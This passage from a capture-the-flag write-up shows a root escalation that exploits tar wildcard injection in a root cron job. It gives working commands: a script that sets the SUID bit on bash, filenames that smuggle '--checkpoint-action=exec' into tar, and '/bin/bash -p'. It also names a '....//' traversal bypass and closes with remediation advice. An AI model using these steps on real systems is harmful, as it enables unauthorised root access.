

**User flag:**

```bash
cat /home/server-management/user.txt
```



---

## Privilege Escalation

### Enumeration

I'd already spotted the privilege-escalation vector while reading the backup script: a **root-owned cron job running `tar` with an unquoted wildcard** against a directory I, as `server-management`, can write to. This is a well-known pattern — background in [this writeup on wildcard/tar injection](https://dev.to/devon_argent_f9a11303298a/day-12-auditing-linux-privilege-escalation-vectors-gm3) and more generally on [GTFOBins' tar entry](https://gtfobins.github.io/gtfobins/tar/).

### Exploitation

Since the script `cd`s into `/home/server-management/Documents` and runs `tar czf dest *` as root every 2 minutes, any filename I create in that directory starting with `-` is parsed by `tar` as a *flag*, not a filename. `tar` supports `--checkpoint` and `--checkpoint-action=exec=<cmd>` as legitimate options, so filenames crafted to look like those flags let me get arbitrary command execution as root — without modifying the script itself.

```bash
# Step 1 — payload script, sets the SUID bit on bash
cat > test.sh <<'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
chmod +x test.sh

# Step 2 — filenames tar will parse as --checkpoint / --checkpoint-action flags
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh test.sh"

# Step 3 — wait for the next cron tick (≤2 minutes), then:
/bin/bash -p
```



**Root flag:**

```bash
cat /root/root.txt
```



---

## Conclusion

What I learned/practiced in this room:

- **Naive path-traversal filters are often single-pass.** A server stripping `../` once (instead of recursively) is bypassable with sequences like `....//`, which leave a valid `../` behind after the first (and only) strip. Always test with nested/duplicated traversal sequences, not just the plain payload, before concluding a path isn't traversable.
- **Client-side JS is a real recon surface.** The subdomain and the vulnerable parameter name were both sitting in plaintext in files served from an open `js/` directory listing — a reminder to always check for exposed source, not just rendered pages.
- **Flat-file credential stores (`.htpasswd`) are high-value LFI targets.** Read access to the filesystem is often enough to pull Basic Auth credentials directly, skipping the web application layer entirely.
- **Backup scripts are an underrated privesc surface.** A root cron job that backs up a lower-privileged user's directory can leak sensitive material (here, an SSH private key) into a location a less-privileged user can later exfiltrate from.
- **Unquoted wildcards passed to `tar` (or `chown`, `rsync`, `chmod`, etc.) run as a higher-privileged user are a classic local privilege escalation primitive.** If you control filenames in a directory that a privileged scheduled job later globs over, you can often smuggle option flags (like `tar`'s `--checkpoint-action=exec=...`) into the command via filenames alone — GTFOBins is worth bookmarking for which binaries support this per command.

### Remediation notes (for completeness)
- Use a proper traversal-safe path canonicalization (resolve and verify the path is still inside an allowed base directory) rather than string-stripping `../`.
- Don't ship debug/source-revealing JS with hardcoded internal hostnames or parameter names to production.
- Store Basic Auth credentials outside the web root, and ensure LFI/path-traversal bugs can't reach `/etc/`.
- Patch or replace ClipBucket (abandoned, multiple public unauthenticated RCEs).
- Quote all glob expansions in scripts run by cron as root (`tar czf "$dest/$archive_file" -- *` still has the same issue — the real fix is running the backup as the target user, or validating filenames before archiving), and never let a lower-privileged user control the contents of a directory a root-owned job archives without sanitization.

Thank you for reading!
